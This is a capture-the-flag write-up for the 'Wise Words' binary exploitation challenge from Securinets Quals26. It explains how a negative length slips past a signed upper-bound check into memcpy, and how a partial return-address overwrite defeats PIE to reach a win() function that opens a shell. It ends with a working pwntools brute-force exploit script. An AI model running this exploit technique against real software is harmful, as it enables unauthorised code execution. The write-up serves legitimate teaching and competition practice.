


Over?flow Securinets-Quals26
2026-10 · PWN · low-level · Signed Integer · memcpy · PIE
- CTF: Securinets Quals26
- Category: PWN
- Difficulty: Easy-Medium
- Topics: Stack corruption, memcpy()
Wise Words — Securinets Quals
Category: Pwn / Binary Exploitation
Architecture: x86-64, Linux
Objective: Reach thewin()function
Challenge Overview
The program starts by asking for our “wise words” and a character count for it. The interesting part is that the count is read as a signed integer, but is later passed to memcpy() as its length. This creates an integer-sign conversion issue: a negative count can become an extremely large unsigned copy length.
So we can use this to corrupt control-flow data and redirect execution to the challenge's win() function, which prints GG and invokes /bin/sh.
Initial Recon
The executable is a 64-bit x86-64 ELF binaries with PIE ON. The disassembly exposes useful functions, including input(), prompt(), escape(), and win().

Reversing The Execution Flow
The program's execution flow is:
main()callssetup().main()allocates a local buffer and passes its address toprompt().prompt()displays the challenge text and callsinput().input()reads the requested character count withscanf().- It reads user data with
read(). - It passes the count to
memcpy(). - Control returns through
prompt()andmain(), where the returned string is processed byescape().
Here is the decompiled logic inside input():
__isoc23_scanf("%d", &wise_words_len);
// Upper-bound check
if (0x70 < wise_words_len) {
printf(&bluh);
exit(0);
}
read(0, wise_words, 0xe0);
// Passes length to memcpy as a signed int cast to long
memcpy(buf_in_main, local_buf, (long)wise_words_len);
The Vulnerable Logic
In input(), the length validation checks only the upper bound:
if (0x70 < wise_words_len) {
exit(0);
}
There is no check ensuring the count is non-negative. Because signed -1 < 0x70 evaluates to true, any negative number passes the sanity check without triggering exit(0).
However, the third argument to memcpy() expects an unsigned long. When the signed 32-bit wise_words_len is sign-extended and loaded into rdx, negative numbers become massive unsigned values:

For example, on x86-64:
-67sign-extends to0xffffffffffffffbd
Exploit Strategy
(optional rambling) The escape function which cancels out all format specifiers and the printf with a format string vulnerability in the main function are decoys as far I know, But hey, you never know with challenges like these. Do enlighten me if you find a way to use that in some way too
Ok so now that we know why things are going wrong because of the negative numbers, we can move onto successfully exploiting it for our devious schemes. From what I observed, depending on what negative number we give, say -3 then it will preserve 3 bytes that come right before main function's local buffer. and if it was -6 it would preserve 6 bytes bfr it from corruption dues to memcpy(debug on gdb to get a better idea).
This gives us a nice little trick to overcome PIE and modify the return address(also before the main local buffer) for when prompt tries to return to main.
That is, if the return address were 0x00005fffff123456, -6 would preserve the bytes 00 00 5f ff ff 12. this gives us control over 0x3456.
A quick de-brujin series payload would give us the padding for this to be 120 bytes. We can also predict 3 nibbles for the win() address with PIE being enabled and we are left with 1 nibble worth of randomness. So we can have a 1/16 brute until it hits.
Our wise words would so be ==> 120 bytes padding + '\x1d\x92'
Exploit Script
#!/usr/bin/env python3
from pwn import *
e = ELF("./main_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")
context.binary = e
context.terminal = ["alacritty", "-e"]
context.log_level = "info"
sla = lambda x, pay: c.sendlineafter(x, pay)
sa = lambda x, pay: c.sendafter(x, pay)
sl = lambda pay: c.sendline(pay)
s = lambda pay: c.send(pay)
ru = lambda x, drop=False: c.recvuntil(x, drop=drop)
rl = lambda: c.recvline()
i = lambda: c.interactive()
HOST = "pwn3.securinets.tn"
PORT = 1000
gdbscript = """
# b*input
b*prompt+79
"""
def start(argv=[], *a, **kw):
if args.GDB:
return gdb.debug([e.path] + argv, gdbscript=gdbscript, *a, **kw)
elif args.REMOTE:
return remote(HOST, PORT, *a, **kw)
else:
return process([e.path] + argv, *a, **kw)
while True:
c = start()
sla(b":", b"-6")
s(cyclic(120) + b"\x1d\x92")
if b"GG" in c.clean():
break
else:
c.kill()
continue
i()